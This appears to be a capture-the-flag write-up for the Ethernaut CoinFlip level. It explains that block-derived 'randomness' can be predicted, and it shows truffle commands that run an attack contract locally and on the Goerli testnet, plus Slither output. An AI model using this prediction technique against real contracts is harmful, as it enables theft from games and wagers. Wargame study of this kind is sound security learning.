 # CoinFlip

[CoinFlip](https://ethernaut.openzeppelin.com/level/0x9240670dbd6476e6a32055E52A0b0756abd26fd2)

This bug boils down to "randomness" that is generated deterministically.
Hence it is vulnerable to front-running.

<BR />


## Testing Attack

```BASH
truffle develop
```

```JS
migrate
attack = await CoinFlipAttack.deployed()

await attack.target()
await attack.flip({from: accounts[1]})
(await attack.fail()).toString()
(await attack.success()).toString()
```

<BR />

## Live Attack

```BASH
truffle console --network goerli
```


```JS
// Identify the account index
// 0xCbB9660eA60B895443ef5001B968b6Ae4c0AaA18
accounts
sender = accounts[5]

migrate

attack = await CoinFlipAttack.deployed()

await attack.target()
await attack.flip({from: sender})
(await attack.fail()).toString()
(await attack.success()).toString()

flip = await CoinFlip.at('0xA737b256ed909Fd726Ef5E59793fd9A60D516D23')
(await flip.consecutiveWins()).toString()
```

<BR />

## Vulnerability Testing Tools

This is a logical bug, so one can expect test tools not to catch it.

<BR />

### Slither

Not detected.

```BASH
slither ./contracts/CoinFlip.sol  --truffle-ignore-compile --exclude-optimization 
```

```
CoinFlip.flip(bool) (contracts/CoinFlip.sol#14-32) uses a dangerous strict equality:
        - lastHash == blockValue (contracts/CoinFlip.sol#17)
CoinFlip.flip(bool) (contracts/CoinFlip.sol#14-32) uses a dangerous strict equality:
        - coinFlip == 1 (contracts/CoinFlip.sol#23)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#dangerous-strict-equalities

Pragma version^0.8.0 (contracts/CoinFlip.sol#2) allows old versions
solc-0.8.9 is not recommended for deployment
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity

Parameter CoinFlip.flip(bool)._guess (contracts/CoinFlip.sol#14) is not in mixedCase
Variable CoinFlip.FACTOR (contracts/CoinFlip.sol#8) is not in mixedCase
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#conformance-to-solidity-naming-conventions
./contracts/CoinFlip.sol analyzed (1 contracts with 76 detectors), 6 result(s) found
```
